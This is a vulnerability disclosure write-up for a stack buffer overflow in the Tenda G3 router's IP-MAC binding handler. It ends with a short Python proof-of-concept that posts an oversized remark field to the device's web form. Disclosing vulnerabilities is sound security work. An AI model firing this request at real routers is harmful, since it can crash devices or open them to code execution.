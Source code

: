 # Tenda G3 formIPMacBindModify
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the formIPMacBindModify function.
### Vulnerability details
Stack-based buffer overflow in function ipMacBindListStore on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function ipMacBindListStore line 48,  it reads in 4 user-provided parameters, and the variable ruleId, ip, mac, remark are passed to the sprintf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formIPMacBindModify-1.png)
![](images/formIPMacBindModify-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/modifyIpMacBind'
payload = {
    "IPMacBindRuleRemark": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
